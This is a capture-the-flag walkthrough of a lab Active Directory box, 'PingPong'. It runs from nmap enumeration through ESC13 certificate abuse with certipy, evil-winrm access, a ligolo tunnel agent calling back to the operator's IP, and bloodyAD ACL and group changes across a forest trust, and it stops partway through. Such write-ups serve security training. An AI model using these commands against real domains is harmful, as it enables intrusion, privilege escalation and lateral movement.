<aside>
💡

As is common in real life pentests, you will start the PingPong box with credentials for the following account c.roberts / AssumedBreach123

</aside>

## Port Scanning - Service & Version Enumeration

```java
# Nmap 7.98 scan initiated Sun Apr 26 11:23:32 2026 as: /usr/lib/nmap/nmap -p- --open -Pn -sVC -vv -oN nmap.out 10.129.36.29
Nmap scan report for 10.129.36.29
Host is up, received user-set (0.14s latency).
Scanned at 2026-04-26 11:23:33 IST for 493s
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-04-26 14:00:12Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Issuer: commonName=ping-DC1-CA/domainComponent=ping
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-20T18:54:50
| Not valid after:  2106-04-20T18:54:50
| MD5:     76f1 cc4a 1f6c 0942 141b 551e 31d4 8c32
| SHA-1:   938c 7f61 d13d cfb8 1629 e02f f3dc 7a56 6f04 714c
| SHA-256: e00e be1c 40ed 4b32 aabf 56a1 53df 2b89 f899 ea02 8462 e3dc db9e 25be 8ca2 4730
| -----BEGIN CERTIFICATE-----
| MIIF1jCCBL6gAwIBAgITHAAAABBXNgfx016uKwACAAAAEDANBgkqhkiG9w0BAQsF
| ADBBMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEcGluZzEU
| MBIGA1UEAxMLcGluZy1EQzEtQ0EwIBcNMjYwNDIwMTg1NDUwWhgPMjEwNjA0MjAx
| ODU0NTBaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC4oA+lzH17
| zBUauEXc+KI0rvaZKP6EYV34FGEYOto36KlEeWuJVIxfJUAA8uws2WM8Ku0+yRMF
| De5KtitSD5qDUZy87QL9Mewbwu1/XWjuhbYIslo+xq2yXXolqxaDEwN5uwKYwpRt
| S5+fmQob8MahVp8T8gKEKjYirht+DQA86ejVvYIE2fffA8JunIZAdcEDifX+A32b
| BGVnjz2B5y00olpB7rdrhSM30GKgRTq28U4S3zcmSj8A1ZxUky1fj8EZls7VaE7Z
| IDvVo3x4/4+Og33C0Xio2euWUxOvkN6ihD8K7tbiAPwbuuJcxxYSLECeU4TIDgVX
| 4sX3FUmBEoNpAgMBAAGjggMEMIIDADA3BgkrBgEEAYI3FQcEKjAoBiArBgEEAYI3
| FQiC4sJhgfm1YoaBjSX+l3aEoO87gVYBIQIBbgIBADAyBgNVHSUEKzApBggrBgEF
| BQcDAgYIKwYBBQUHAwEGCisGAQQBgjcUAgIGBysGAQUCAwUwDgYDVR0PAQH/BAQD
| AgWgMEAGCSsGAQQBgjcVCgQzMDEwCgYIKwYBBQUHAwIwCgYIKwYBBQUHAwEwDAYK
| KwYBBAGCNxQCAjAJBgcrBgEFAgMFMB0GA1UdDgQWBBTf8xLW2hUhKLVgFFLTYeyL
| wxhlFDAfBgNVHSMEGDAWgBQwyA7RMsrOrWzwAmsfjoCaa5tCmTCBxQYDVR0fBIG9
| MIG6MIG3oIG0oIGxhoGubGRhcDovLy9DTj1waW5nLURDMS1DQSgyKSxDTj1kYzEs
| Q049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9cGluZyxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0
| aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIG6
| BggrBgEFBQcBAQSBrTCBqjCBpwYIKwYBBQUHMAKGgZpsZGFwOi8vL0NOPXBpbmct
| REMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2
| aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXBpbmcsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MCoGA1Ud
| EQEB/wQgMB6CDGRjMS5waW5nLmh0YoIIcGluZy5odGKCBFBJTkcwTgYJKwYBBAGC
| NxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMtMS01LTIxLTc1MDYzNTYyNC0yMDU4
| NzIxOTAxLTE5MzIzMzgzOTEtMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAC/FMPSx+
| QwynyJ4ILaexQmifWpp9Q4x9SOr+oYmoP5PiY0oah5LjePJHyteXjLPumOpfcT3n
| eBN5WZK7E0dPk/5NQ5tW1OBo0ICbVBT9BExAdlBa06LM9fx1Ih25/WjqdPqREOBw
| f3Q660aGgsaej75UrLkh03k/v7krVZjaPaBiYHwGIEvebuVPVJGmrXiolLirVEDz
| rMTaJP8vC3KnLIh3KUIrDLcSMDq8dPUTqyRpyUnvSPOAFk07in7kHhjGjzznX/sl
| XIPba/Oa19poYE26tpxNhhs/s75GAstQE8PPhGxkrb3jFYKF0FA7kfM725mJq+Tv
| 8OK8tm98KSpwtw==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Issuer: commonName=ping-DC1-CA/domainComponent=ping
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-20T18:54:50
| Not valid after:  2106-04-20T18:54:50
| MD5:     76f1 cc4a 1f6c 0942 141b 551e 31d4 8c32
| SHA-1:   938c 7f61 d13d cfb8 1629 e02f f3dc 7a56 6f04 714c
| SHA-256: e00e be1c 40ed 4b32 aabf 56a1 53df 2b89 f899 ea02 8462 e3dc db9e 25be 8ca2 4730
| -----BEGIN CERTIFICATE-----
| MIIF1jCCBL6gAwIBAgITHAAAABBXNgfx016uKwACAAAAEDANBgkqhkiG9w0BAQsF
| ADBBMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEcGluZzEU
| MBIGA1UEAxMLcGluZy1EQzEtQ0EwIBcNMjYwNDIwMTg1NDUwWhgPMjEwNjA0MjAx
| ODU0NTBaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC4oA+lzH17
| zBUauEXc+KI0rvaZKP6EYV34FGEYOto36KlEeWuJVIxfJUAA8uws2WM8Ku0+yRMF
| De5KtitSD5qDUZy87QL9Mewbwu1/XWjuhbYIslo+xq2yXXolqxaDEwN5uwKYwpRt
| S5+fmQob8MahVp8T8gKEKjYirht+DQA86ejVvYIE2fffA8JunIZAdcEDifX+A32b
| BGVnjz2B5y00olpB7rdrhSM30GKgRTq28U4S3zcmSj8A1ZxUky1fj8EZls7VaE7Z
| IDvVo3x4/4+Og33C0Xio2euWUxOvkN6ihD8K7tbiAPwbuuJcxxYSLECeU4TIDgVX
| 4sX3FUmBEoNpAgMBAAGjggMEMIIDADA3BgkrBgEEAYI3FQcEKjAoBiArBgEEAYI3
| FQiC4sJhgfm1YoaBjSX+l3aEoO87gVYBIQIBbgIBADAyBgNVHSUEKzApBggrBgEF
| BQcDAgYIKwYBBQUHAwEGCisGAQQBgjcUAgIGBysGAQUCAwUwDgYDVR0PAQH/BAQD
| AgWgMEAGCSsGAQQBgjcVCgQzMDEwCgYIKwYBBQUHAwIwCgYIKwYBBQUHAwEwDAYK
| KwYBBAGCNxQCAjAJBgcrBgEFAgMFMB0GA1UdDgQWBBTf8xLW2hUhKLVgFFLTYeyL
| wxhlFDAfBgNVHSMEGDAWgBQwyA7RMsrOrWzwAmsfjoCaa5tCmTCBxQYDVR0fBIG9
| MIG6MIG3oIG0oIGxhoGubGRhcDovLy9DTj1waW5nLURDMS1DQSgyKSxDTj1kYzEs
| Q049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9cGluZyxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0
| aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIG6
| BggrBgEFBQcBAQSBrTCBqjCBpwYIKwYBBQUHMAKGgZpsZGFwOi8vL0NOPXBpbmct
| REMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2
| aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXBpbmcsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MCoGA1Ud
| EQEB/wQgMB6CDGRjMS5waW5nLmh0YoIIcGluZy5odGKCBFBJTkcwTgYJKwYBBAGC
| NxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMtMS01LTIxLTc1MDYzNTYyNC0yMDU4
| NzIxOTAxLTE5MzIzMzgzOTEtMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAC/FMPSx+
| QwynyJ4ILaexQmifWpp9Q4x9SOr+oYmoP5PiY0oah5LjePJHyteXjLPumOpfcT3n
| eBN5WZK7E0dPk/5NQ5tW1OBo0ICbVBT9BExAdlBa06LM9fx1Ih25/WjqdPqREOBw
| f3Q660aGgsaej75UrLkh03k/v7krVZjaPaBiYHwGIEvebuVPVJGmrXiolLirVEDz
| rMTaJP8vC3KnLIh3KUIrDLcSMDq8dPUTqyRpyUnvSPOAFk07in7kHhjGjzznX/sl
| XIPba/Oa19poYE26tpxNhhs/s75GAstQE8PPhGxkrb3jFYKF0FA7kfM725mJq+Tv
| 8OK8tm98KSpwtw==
|_-----END CERTIFICATE-----
2179/tcp  open  vmrdp?        syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Issuer: commonName=ping-DC1-CA/domainComponent=ping
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-20T18:54:50
| Not valid after:  2106-04-20T18:54:50
| MD5:     76f1 cc4a 1f6c 0942 141b 551e 31d4 8c32
| SHA-1:   938c 7f61 d13d cfb8 1629 e02f f3dc 7a56 6f04 714c
| SHA-256: e00e be1c 40ed 4b32 aabf 56a1 53df 2b89 f899 ea02 8462 e3dc db9e 25be 8ca2 4730
| -----BEGIN CERTIFICATE-----
| MIIF1jCCBL6gAwIBAgITHAAAABBXNgfx016uKwACAAAAEDANBgkqhkiG9w0BAQsF
| ADBBMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEcGluZzEU
| MBIGA1UEAxMLcGluZy1EQzEtQ0EwIBcNMjYwNDIwMTg1NDUwWhgPMjEwNjA0MjAx
| ODU0NTBaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC4oA+lzH17
| zBUauEXc+KI0rvaZKP6EYV34FGEYOto36KlEeWuJVIxfJUAA8uws2WM8Ku0+yRMF
| De5KtitSD5qDUZy87QL9Mewbwu1/XWjuhbYIslo+xq2yXXolqxaDEwN5uwKYwpRt
| S5+fmQob8MahVp8T8gKEKjYirht+DQA86ejVvYIE2fffA8JunIZAdcEDifX+A32b
| BGVnjz2B5y00olpB7rdrhSM30GKgRTq28U4S3zcmSj8A1ZxUky1fj8EZls7VaE7Z
| IDvVo3x4/4+Og33C0Xio2euWUxOvkN6ihD8K7tbiAPwbuuJcxxYSLECeU4TIDgVX
| 4sX3FUmBEoNpAgMBAAGjggMEMIIDADA3BgkrBgEEAYI3FQcEKjAoBiArBgEEAYI3
| FQiC4sJhgfm1YoaBjSX+l3aEoO87gVYBIQIBbgIBADAyBgNVHSUEKzApBggrBgEF
| BQcDAgYIKwYBBQUHAwEGCisGAQQBgjcUAgIGBysGAQUCAwUwDgYDVR0PAQH/BAQD
| AgWgMEAGCSsGAQQBgjcVCgQzMDEwCgYIKwYBBQUHAwIwCgYIKwYBBQUHAwEwDAYK
| KwYBBAGCNxQCAjAJBgcrBgEFAgMFMB0GA1UdDgQWBBTf8xLW2hUhKLVgFFLTYeyL
| wxhlFDAfBgNVHSMEGDAWgBQwyA7RMsrOrWzwAmsfjoCaa5tCmTCBxQYDVR0fBIG9
| MIG6MIG3oIG0oIGxhoGubGRhcDovLy9DTj1waW5nLURDMS1DQSgyKSxDTj1kYzEs
| Q049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9cGluZyxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0
| aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIG6
| BggrBgEFBQcBAQSBrTCBqjCBpwYIKwYBBQUHMAKGgZpsZGFwOi8vL0NOPXBpbmct
| REMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2
| aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXBpbmcsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MCoGA1Ud
| EQEB/wQgMB6CDGRjMS5waW5nLmh0YoIIcGluZy5odGKCBFBJTkcwTgYJKwYBBAGC
| NxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMtMS01LTIxLTc1MDYzNTYyNC0yMDU4
| NzIxOTAxLTE5MzIzMzgzOTEtMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAC/FMPSx+
| QwynyJ4ILaexQmifWpp9Q4x9SOr+oYmoP5PiY0oah5LjePJHyteXjLPumOpfcT3n
| eBN5WZK7E0dPk/5NQ5tW1OBo0ICbVBT9BExAdlBa06LM9fx1Ih25/WjqdPqREOBw
| f3Q660aGgsaej75UrLkh03k/v7krVZjaPaBiYHwGIEvebuVPVJGmrXiolLirVEDz
| rMTaJP8vC3KnLIh3KUIrDLcSMDq8dPUTqyRpyUnvSPOAFk07in7kHhjGjzznX/sl
| XIPba/Oa19poYE26tpxNhhs/s75GAstQE8PPhGxkrb3jFYKF0FA7kfM725mJq+Tv
| 8OK8tm98KSpwtw==
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: ping.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc1.ping.htb, DNS:ping.htb, DNS:PING
| Issuer: commonName=ping-DC1-CA/domainComponent=ping
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-20T18:54:50
| Not valid after:  2106-04-20T18:54:50
| MD5:     76f1 cc4a 1f6c 0942 141b 551e 31d4 8c32
| SHA-1:   938c 7f61 d13d cfb8 1629 e02f f3dc 7a56 6f04 714c
| SHA-256: e00e be1c 40ed 4b32 aabf 56a1 53df 2b89 f899 ea02 8462 e3dc db9e 25be 8ca2 4730
| -----BEGIN CERTIFICATE-----
| MIIF1jCCBL6gAwIBAgITHAAAABBXNgfx016uKwACAAAAEDANBgkqhkiG9w0BAQsF
| ADBBMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEcGluZzEU
| MBIGA1UEAxMLcGluZy1EQzEtQ0EwIBcNMjYwNDIwMTg1NDUwWhgPMjEwNjA0MjAx
| ODU0NTBaMAAwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC4oA+lzH17
| zBUauEXc+KI0rvaZKP6EYV34FGEYOto36KlEeWuJVIxfJUAA8uws2WM8Ku0+yRMF
| De5KtitSD5qDUZy87QL9Mewbwu1/XWjuhbYIslo+xq2yXXolqxaDEwN5uwKYwpRt
| S5+fmQob8MahVp8T8gKEKjYirht+DQA86ejVvYIE2fffA8JunIZAdcEDifX+A32b
| BGVnjz2B5y00olpB7rdrhSM30GKgRTq28U4S3zcmSj8A1ZxUky1fj8EZls7VaE7Z
| IDvVo3x4/4+Og33C0Xio2euWUxOvkN6ihD8K7tbiAPwbuuJcxxYSLECeU4TIDgVX
| 4sX3FUmBEoNpAgMBAAGjggMEMIIDADA3BgkrBgEEAYI3FQcEKjAoBiArBgEEAYI3
| FQiC4sJhgfm1YoaBjSX+l3aEoO87gVYBIQIBbgIBADAyBgNVHSUEKzApBggrBgEF
| BQcDAgYIKwYBBQUHAwEGCisGAQQBgjcUAgIGBysGAQUCAwUwDgYDVR0PAQH/BAQD
| AgWgMEAGCSsGAQQBgjcVCgQzMDEwCgYIKwYBBQUHAwIwCgYIKwYBBQUHAwEwDAYK
| KwYBBAGCNxQCAjAJBgcrBgEFAgMFMB0GA1UdDgQWBBTf8xLW2hUhKLVgFFLTYeyL
| wxhlFDAfBgNVHSMEGDAWgBQwyA7RMsrOrWzwAmsfjoCaa5tCmTCBxQYDVR0fBIG9
| MIG6MIG3oIG0oIGxhoGubGRhcDovLy9DTj1waW5nLURDMS1DQSgyKSxDTj1kYzEs
| Q049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENO
| PUNvbmZpZ3VyYXRpb24sREM9cGluZyxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0
| aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIG6
| BggrBgEFBQcBAQSBrTCBqjCBpwYIKwYBBQUHMAKGgZpsZGFwOi8vL0NOPXBpbmct
| REMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2
| aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXBpbmcsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MCoGA1Ud
| EQEB/wQgMB6CDGRjMS5waW5nLmh0YoIIcGluZy5odGKCBFBJTkcwTgYJKwYBBAGC
| NxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMtMS01LTIxLTc1MDYzNTYyNC0yMDU4
| NzIxOTAxLTE5MzIzMzgzOTEtMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAC/FMPSx+
| QwynyJ4ILaexQmifWpp9Q4x9SOr+oYmoP5PiY0oah5LjePJHyteXjLPumOpfcT3n
| eBN5WZK7E0dPk/5NQ5tW1OBo0ICbVBT9BExAdlBa06LM9fx1Ih25/WjqdPqREOBw
| f3Q660aGgsaej75UrLkh03k/v7krVZjaPaBiYHwGIEvebuVPVJGmrXiolLirVEDz
| rMTaJP8vC3KnLIh3KUIrDLcSMDq8dPUTqyRpyUnvSPOAFk07in7kHhjGjzznX/sl
| XIPba/Oa19poYE26tpxNhhs/s75GAstQE8PPhGxkrb3jFYKF0FA7kfM725mJq+Tv
| 8OK8tm98KSpwtw==
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
57674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
57757/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
57773/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
57819/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 11478/tcp): CLEAN (Timeout)
|   Check 2 (port 31702/tcp): CLEAN (Timeout)
|   Check 3 (port 39446/udp): CLEAN (Timeout)
|   Check 4 (port 54030/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 7h59m59s
| smb2-time: 
|   date: 2026-04-26T14:01:04
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 26 11:31:46 2026 -- 1 IP address (1 host up) scanned in 494.05 seconds

```

Now let’s generate the hosts file using nxc

```java
nxc smb 10.129.36.29 --generate-hosts pingpong.conf
```

and add the entry in /etc/hosts

```java
cat pingpong.conf| sudo tee -a /etc/hosts
```

Let’s start with share enumeration first



it shows that the NOT_SUPPORTED that means it requires the Kerberos authentication

Now still the nmap is running so we can query the DC time using 

```java
ntpdate -q dc1.ping.htb
```



Time of DC, we can now use faketime 

```java
faketime -f '2026-04-26 19:28:47' nxc smb dc1.ping.htb -u c.roberts -p AssumedBreach123 -k
```



Nice, but the nmap gives us good clarity around this as it directly shows the how many hours we need to +/-  as per the DC time, but for now this is also another technique we can use

now let’s query for available SMB shares, but everytime using this faketime for now it little bit frustrating as we are in VM so we can just SYNC our time with dc using

```java
ntpdate -r dc1.ping.htb
```



[Don’t forget to run command as root]

now let’s continue towards our enumration

```java
nxc smb dc1.ping.htb -u c.roberts -p AssumedBreach123 -k --shares
```



nothing useful, let’s dump the usernames using `--users`flag

```java
nxc smb dc1.ping.htb -u c.roberts -p AssumedBreach123 -k --users | tee -a nxc.out
```

and now let’s use the some bash commands to get clean users.txt

```java
cat nxc.out| awk '{print $5}' | tail -n +4 | head -n -1 > users.txt
```

now let’s get the bloodhound data using bloodhound-python

first we need to get TGT for the user using `impacket-getTGT`

```java
impacket-getTGT 'ping.htb'/'c.roberts':'AssumedBreach123' -dc-ip 10.129.36.29
```

and now let’s use the TGT to get bloodhound data

```java
KRB5CCNAME=c.roberts.ccache bloodhound-python -c all -d ping.htb -u c.roberts -k -no-pass -ns 10.129.36.29 -dc dc1.ping.htb --use-ldaps
```

we got following error



let’s use the command again with the `-v`flag to get verbose output

```java
KRB5CCNAME=c.roberts.ccache bloodhound-python -v -c all -d ping.htb -u c.roberts -k -p AssumedBreach123 -ns 10.129.36.29 -dc dc1.ping.htb 
```

keep as it is let’s use the nxc instead (note: it requires the bloodhound-CE)

```java
nxc ldap dc1.ping.htb -u c.roberts -p AssumedBreach123 -k --bloodhound
```



if you get above error make sure to turn off Bloodhound-CE conf from nxc configuration file

i’m not able to make it work, now let’s use another path, as we know the ADCS is running let’s check fi we can get anything useful from it

before moving forward we can generate krb5-conf using nxc

```java
nxc smb dc1.ping.htb -u 'c.roberts' -p AssumedBreach123 -k -d ping.htb --generate-krb5 ping-krb.conf
```



move the file to `/etc/krb5.conf` 

now let’s start with ADCS

```java
nxc ldap dc1.ping.htb -u 'c.roberts' -p AssumedBreach123 -k -d ping.htb -M adcs
```



now let’s use the certipy to get ADCS information

```java
certipy-ad find -u c.roberts -k -no-pass -dc-host dc1.ping.htb
```



let’s view the output of the certipy



now if we see more there’s ESC13 vulnerability



searching on google gives us good article

[Certificate templates | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc13-issuance-policiy-with-privileged-group-linked)





so we can directly request the certificate

```java
certipy-ad req -u "c.roberts@ping.htb" -k  -no-pass -dc-host dc1.ping.htb -target dc1.ping.htb -ca 'ping-DC1-CA' -template 'TemporaryWinRM'
```



let’s check if we got access to winrm or not using evil-winrm

but as we are only having the pfx file it will not work with the winrm directly first we’ll use the PFX to get a TGT

```java
python gettgtpkinit.py PING.HTB/c.roberts -cert-pfx c.roberts.pfx -pfx-pass "" c.roberts.ccache
```



let’s login to DC1 using evil-winrm

```java
evil-winrm -i dc1.ping.htb -u c.roberts -r ping.htb
```



still no user.txt let’s check out group membership



we are member of IT groups

let’s check network interfaces, using `ipconfig` 



so possibly we can tunnel and then try to check if anything on internal network and then again try to run bloodhound as now we need to check what ACLs our user is holding

now let’s upload the ligolo agent and then pivot into internal network

now start the ligolo proxy on kali using 

```java
sudo ~/tools/ligolo/proxy -selfcert
```

and from DC1 machine

```java
Start-Process -NoNewWindow -File "C:\temp\agent.exe" -ArgumentList "-connect 10.10.15.132:11601 -ignore-cert"
```

and then when agent connected, use autoroute to add the route to 192.168.2.1/24



now let’s use the `nxc`to scan the `192.168.2.1/24` 

```java
nxc smb 192.168.2.1/24
```



we found that there’s another forest/domain, let’s generate the hosts file for this one as well

```java
nxc smb 192.168.2.2 --generate-hosts pong.conf

cat pong.conf| sudo tee -a /etc/hosts
```

also we need to first modify our /etc/krb5.conf first generate the same for PONG.HTB

and final /etc/krb5.conf looks like as below

```java
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false

[realms]
    PING.HTB = {
        kdc = dc1.ping.htb
        admin_server = dc1.ping.htb
        default_domain = ping.htb
    }

    PONG.HTB = {
        kdc = dc2.pong.htb
        admin_server = dc2.pong.htb
        default_domain = pong.htb
    }

[domain_realm]
    .ping.htb = PING.HTB
    ping.htb = PING.HTB

    .pong.htb = PONG.HTB
    pong.htb = PONG.HTB
```

we can verify our creds are valid on PONG.HTB using 

```java
nxc smb dc2.pong.htb -u c.roberts -p AssumedBreach123 -k -d ping.htb
```



Let’s use the powerview and try to enumerate the useful things

```java
Import-Module .\PowerView.ps1

Get-DomainTrust
```

checking the Trust



we can see that we have Bidirectional forest trust

and then i’ve transfered the SharpHound.exe to target machine and dump the AD data

```java
.\SharpHound.exe --collectionmethods All
```



and then download the zip file

```java
download 20260426092856_BloodHound.zip
```



now upload the data to bloodhound

we first can see that CrossForestTrust is available



to enumerate the PONG.HTB we need the cross-realm TGT 



as we can see we only having access to PING.HTB services

<aside>
💡

`kvno` (Kerberos Version Number) requests a **service ticket** for a specific SPN and prints the key version number of that ticket.

</aside>

```java
kvno -S ldap dc2.pong.htb
```



now we can see that we have the ticket which we can present to PONG.HTB / DC2



and from dc1 let’s use sharphound to collect data of the PONG.HTB

```java
\SharpHound.exe --CollectionMethods All --domain pong.htb --ldapusername 'c.roberts@ping.htb' --ldappassword AssumedBreach123 --domaincontroller dc2.pong.htb 
```



and upload the pong.htb data to bloodhound



now let’s analyze the data we got 



first we can see that c.roberts is the member of `PING\IT` and it owns the `PONG\GMSA Managers` 

`PONG\GMSA Managers` → ReadGMSAPassword → `Pong_gMSA$`



Now first let’s give us full control over the GMSA Managers 

```java
bloodyAD -d pong.htb -u c.roberts -k --host dc2.pong.htb add genericAll 'CN=GMSA MANAGERS,CN=USERS,DC=PONG,DC=HTB' 'c.roberts@ping.htb'
```



but it is not able to find our user in PONG.HTB, obiviously as the user exists in PING.HTB

so let’s try to specify the SID as it will accept it (get c.roberts SID from Bloodhound)

```java
bloodyAD -d pong.htb -u c.roberts -k --host dc2.pong.htb add genericAll 'CN=GMSA MANAGERS,CN=USERS,DC=PONG,DC=HTB' 'S-1-5-21-750635624-2058721901-1932338391-2617'
```



now let’s ourselves into the group

```java
bloodyAD -d pong.htb -u c.roberts -k --host dc2.pong.htb add groupMember 'CN=GMSA MANAGERS,CN=USERS,DC=PONG,DC=HTB' 'S-1-5-21-750635624-2058721901-1932338391-2617'
```



as ChatGPT says the error comes from the ActiveDirectory we can first check the object properties using `get object`command

```java
bloodyAD -d pong.htb -u c.roberts -k --host dc2.pong.htb get object 'CN=GMSA MANAGERS,CN=USERS,DC=PONG,DC=HTB'
```



we give this data to AI and let it do something for us luckily the gemini found the issue



Here is how the math works for your specific value:

| **Property** | **Bitmask Value (Hex)** | **Bitmask Value (Decimal)** | **Description** |
| --- | --- | --- | --- |
| **Global Scope** | `0x00000002` | `2` | Member of the "Global" scope. |
| **Security Type** | `0x80000000` | `-2147483648` | Marks it as a Security group (used for ACLs). |
| **Total** | `0x80000002` | **-2147483646** | The result of adding the two together. |



so the summary is the GMSA Managers is the Global Security group and it allows to add members only from the same domain

so now the thing is clear to us.

[Active Directory Security Groups](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups)



and the GMSA managers is the Global group and we need to take it to Domain Local

another article that seems useful to me - https://www.experts-exchange.com/questions/28254575/how-to-add-trusted-domain-users-to-security-groups.html



first we need to Go to global to Universal and then Domain Local group

